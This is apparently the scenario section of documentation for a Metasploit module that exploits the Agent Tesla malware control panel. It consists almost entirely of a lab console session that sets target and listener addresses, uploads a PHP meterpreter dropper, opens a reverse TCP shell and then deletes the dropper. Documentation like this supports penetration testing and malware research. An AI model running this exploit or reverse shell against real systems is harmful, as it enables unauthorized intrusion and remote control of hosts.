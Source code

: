 ## Scenarios

### WebPanel1.7z on Windows 10 x64 19H2 with WAMP 3.2.2.2 x64, PHP 5.6.40, Apache 2.4.41, MariaDB 10.4.10
```
msf5 > use exploit/multi/http/agent_tesla_panel_rce
msf5 exploit(multi/http/agent_tesla_panel_rce) > set LHOST 169.254.115.5
LHOST => 169.254.115.5
msf5 exploit(multi/http/agent_tesla_panel_rce) > set RHOSTS 169.254.162.16
RHOSTS => 169.254.162.16
msf5 exploit(multi/http/agent_tesla_panel_rce) > show options

Module options (exploit/multi/http/agent_tesla_panel_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        The Agent Tesla CnC password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     169.254.162.16   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /WebPanel/       yes       The URI where the Agent Tesla CnC panel is located on the target
   USERNAME                    no        The Agent Tesla CnC username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  169.254.115.5    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP-Dropper)


msf5 exploit(multi/http/agent_tesla_panel_rce) > set LPORT 6633
LPORT => 6633
msf5 exploit(multi/http/agent_tesla_panel_rce) > check
[+] 169.254.162.16:80 - The target is vulnerable.
msf5 exploit(multi/http/agent_tesla_panel_rce) > exploit

[*] Started reverse TCP handler on 169.254.115.5:6633
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Targeted operating system is: windows
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .rzzg.php to C:\wamp64\www\\WebPanel\\server_side\scripts\.rzzg.php
[*] Sending stage (38288 bytes) to 169.254.162.16
[*] Meterpreter session 1 opened (169.254.115.5:6633 -> 169.254.162.16:51956) at 2020-06-16 16:01:57 -0500
[+] Deleted C:\wamp64\www\\WebPanel\\server_side\scripts\.rzzg.php

meterpreter > getuid
```